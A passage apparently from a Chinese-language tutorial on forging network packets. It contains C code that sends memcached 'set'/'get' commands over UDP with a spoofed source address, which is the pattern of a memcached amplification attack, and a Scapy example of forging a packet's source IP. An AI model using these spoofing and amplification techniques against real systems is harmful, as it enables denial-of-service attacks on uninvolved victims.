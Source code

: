 ```cpp
    return 0;
}
```

如果要利用Memcached漏洞：

```cpp

int main(int argc, const char *argv[])
{
    if (argc != 5)
    {
        printf("usage:%s src_ip src_port dst_ip dst_port data\n", argv[0]);
        exit(1);
    }
    char setBuff[65535]="set AAAA 0 1000";
    /* 发送ip_udp报文 */
    ip_udp_send(argv[1], atoi(argv[2]), argv[3], atoi(argv[4]), setBuff);
    
    char getBuff[65535]="get AAAA";
    ip_udp_send(argv[1], atoi(argv[2]), argv[3], atoi(argv[4]), getBuff);

    return 0;
}
```

## 0x05 其他方式

Python Scapy 伪造网络数据包

```

>>> data = "Hello Scapy"
>>> pkt = IP(src='172.16.2.135', dst='172.16.2.91')/UDP(sport=12345, dport=5555)/data
>>> send(pkt, inter=1, count=1)
```





